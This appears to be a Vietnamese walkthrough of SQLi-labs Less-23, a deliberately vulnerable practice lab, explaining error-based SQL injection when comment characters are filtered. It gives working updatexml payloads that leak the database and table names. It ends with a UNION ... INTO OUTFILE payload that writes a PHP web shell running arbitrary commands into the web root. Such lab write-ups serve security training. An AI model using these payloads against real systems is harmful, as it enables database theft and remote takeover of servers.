








# Less 23

Đề bài yêu cầu truyền vào id



Tôi thử nhập vào một giá trị



Tôi tìm cách để injection. 



Tôi thấy có lỗi sql hiển thị ra màn hình. Như vậy ta có thể tận dụng vào đây để khai thác các thông của DB.

Ta có thể dự đoán câu query là

```
select * from table where id='$id' limit 0,1
```

Tôi comment đoạn limit trong câu query



Ở đây tôi có thể dự đoán rằng trong code đã xử lý để bỏ đi ký tự comment. Ban đầu ta thấy bài này giống với [Less 1](Less-1.md) nhưng đến đây ta đã thấy chỗ khác biệt. Ta không thể sử dụng các ký tự comment trong SQL. 

Ta vẫn khai thác được DB bằng cách tận dụng vào error based

Show tên DB hiện tại

```
http://192.168.84.233/sqli-labs/Less-23/?id=1 ' and updatexml( 1 ,concat( 0x7e ,(select database()), 0x7e ), 1 ) or ' 1 '=' 1
```



Show tên bảng

```
http://192.168.84.233/sqli-labs/Less-23/?id=1 ' and updatexml( 1 ,concat( 0x7e ,(select table_name from information_schema.tables where table_schema='security' limit 0,1), 0x7e ), 1 ) or ' 1 '=' 1
```



Tương tự ta có thể show tất cả thông tin khác trong DB.

Ta cũng có thể add một đoạn code php vào server

```
http://192.168.84.233/sqli-labs/Less-23/?id=1 ' union select 0,0,"<?php system($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/a1.php' from emails order by id or '1
```



